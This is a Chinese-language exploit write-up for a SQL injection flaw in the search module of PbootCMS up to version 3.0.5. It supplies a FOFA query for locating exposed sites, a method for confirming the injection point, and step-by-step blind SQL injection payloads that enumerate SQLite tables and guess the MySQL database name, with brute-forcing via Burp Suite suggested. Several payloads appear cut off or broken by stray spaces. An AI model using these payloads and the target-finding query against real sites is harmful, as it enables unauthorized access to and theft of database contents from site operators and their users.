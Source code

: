 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## FOFA

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页

![image-20220518155003298](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181550559.png)

我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在

![image-20220518155017186](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181550238.png)

若显示下图，则漏洞无法利用

![image-20220518155030427](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181550475.png)

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![image-20220518155108672](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181551731.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![image-20220518155128134](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181551193.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```

![image-20220518155148056](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181551121.png)

猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```

![image-20220518155205342](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181552408.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同